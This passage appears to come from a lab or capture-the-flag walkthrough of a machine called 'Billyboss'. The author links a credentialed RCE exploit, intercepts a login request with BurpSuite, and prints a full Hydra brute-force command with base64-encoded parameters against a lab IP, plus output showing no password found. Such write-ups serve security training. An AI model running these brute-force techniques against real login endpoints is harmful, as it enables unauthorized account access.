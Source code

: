 ![Billyboss](/assets/img/BillybossPG(2).png)

I found [this](https://www.exploit-db.com/exploits/49385) Remote Code Execution (RCE) exploit but it requires valid credentials to work

I searched for default login credentials and found admin:admina, but they did not work

![Billyboss](/assets/img/BillybossPG(3).png)

I then attempted to brute force the admin account with a password list using Hydra

I intercepted the login request using BurpSuite to find the HTTP Auth parameters for the brute force attempt

![Billyboss](/assets/img/BillybossPG(4).png)

The parameters I found were username= and password= and they were both base64 encoded, I also set the failed attempt parameter to the HTTP 403
~~~shell
┌──(kali㉿kali)-[~/Desktop/Billyboss]
└─$ hydra -I -f -l admin -P xato-net-10-million-passwords-10000.txt 'http-post-form://192.168.182.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403'
Hydra v9.4 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2023-10-27 14:51:22
[DATA] max 16 tasks per 1 server, overall 16 tasks, 10000 login tries (l:1/p:10000), ~625 tries per task
[DATA] attacking http-post-form://192.168.182.61:8081/service/rapture/session:username=^USER64^&password=^PASS64^:C=/:F=403
[STATUS] 2845.00 tries/min, 2845 tries in 00:01h, 7155 to do in 00:03h, 16 active
[STATUS] 2971.00 tries/min, 8913 tries in 00:03h, 1087 to do in 00:01h, 16 active
1 of 1 target completed, 0 valid password found
~~~